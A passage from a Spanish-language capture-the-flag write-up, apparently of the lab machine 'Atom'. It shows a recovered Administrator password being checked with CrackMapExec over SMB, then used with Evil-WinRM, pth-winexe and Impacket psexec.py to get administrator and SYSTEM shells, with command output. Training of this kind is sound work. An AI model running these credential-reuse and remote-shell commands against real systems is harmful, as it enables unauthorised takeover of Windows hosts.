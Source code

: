 Podemos verificar si la contraseña obtenida es del usuario Admnistrator con CrackMapExec:

```bash
> crackmapexec smb 10.129.173.50 -u Administrator -p kidvscat_admin_@123 -d ATOM
SMB         10.129.173.50   445    ATOM             [*] Windows 10 Pro 19042 x64 (name:ATOM) (domain:ATOM) (signing:False) (SMBv1:True)
SMB         10.129.173.50   445    ATOM             [+] ATOM\Administrator:kidvscat_admin_@123 (Pwn3d!)
```

Vemos que las credenciales son correctas.

Una vez obtenida la contraseña en claro, solo nos queda autenticarnos a nivel de sistema con el usuario Administrator:

- Evil-WinRm

```bash
> evil-winrm -i 10.129.173.50 -u Administrator -p kidvscat_admin_@123

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
atom\administrator
```

- pth-winexe

```bash
> pth-winexe -U ATOM/Administrator%kidvscat_admin_@123 //10.129.173.50 cmd.exe
Microsoft Windows [Version 10.0.19042.906]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
atom\administrator
```

- psexec.py

```bash
psexec.py ATOM/Administrator:kidvscat_admin_@123@10.129.173.50 cmd.exe 
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.129.173.50.....
[*] Found writable share ADMIN$
[*] Uploading file pRfJZUtc.exe
[*] Opening SVCManager on 10.129.173.50.....
[*] Creating service VBYm on 10.129.173.50.....
[*] Starting service VBYm.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19042.906]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```
